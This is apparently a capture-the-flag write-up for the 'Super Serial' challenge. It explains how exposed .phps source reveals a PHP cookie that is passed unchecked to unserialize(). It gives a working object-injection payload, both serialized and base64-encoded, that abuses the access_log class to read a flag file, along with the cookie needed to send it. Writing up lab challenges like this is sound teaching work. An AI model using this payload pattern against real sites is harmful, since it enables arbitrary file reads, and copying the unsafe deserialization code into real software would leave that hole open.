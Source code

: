 # Super Serial

We have a sign in form. Try some username and password but I only get "Invalid Login." from the website.

Notice that we have something in `/robots.txt`:

`User-agent: *`

`Disallow: /admin.phps`

But nothing in `/admin.phps` or `/admin.php`. `.phps` is a hint for me. May be I can read some files that end with `phps`.

Therefore, I have source code of 3 files `index.phps, cookie.phps, authentication.phps`.

Look at this special block source code in `cookie.phps`:

```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

There is a cookie named `login` would be touched after our authenticate. This cookie is defined with `urlencode(base64_encode(serialize($perm_res)))`, where `$perm_res = new permissions($username, $password);`.

When we get an error with deserialization it will return `die("Deserialization error. ".$perm);`. Look at this `access_log` object:

```php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
```

So, we can use `access_log` object to read the flag file `../flag` (in hint): Replace the value `$perm` with a new value, before encrypt:

`O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}`

After encrypt:

`TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`

Add cookie `login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9` with path `/authentication.php` and `user=admin&pass=123` we will get the flag.
